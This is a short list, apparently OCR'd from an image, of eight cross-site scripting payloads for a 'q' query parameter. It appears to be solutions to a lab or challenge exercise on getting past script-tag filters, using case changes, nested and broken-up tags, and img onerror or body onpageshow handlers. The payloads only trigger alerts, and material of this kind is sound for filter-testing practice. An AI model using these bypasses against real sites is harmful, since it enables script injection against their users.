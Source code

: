 1. q=<script>alert("hi")</script>
 
2. q=<script><script>alert("hi")</script>
 
3. q=<sscriptcscriptrscriptiscriptpscripttscript>alert("hi")</sscriptcscriptrsc>
 
4. q=<SCRIPT>alert("hi")</SCRIPT>
 
5. q=<sCrIpT>alert("hi")</sCrIpT>
 
6. q=<img src=x onerror="success()"/>
 
7. q=<body  onpageshow="success()"/>
 
8. q=<<script>>alert("hi")</script>
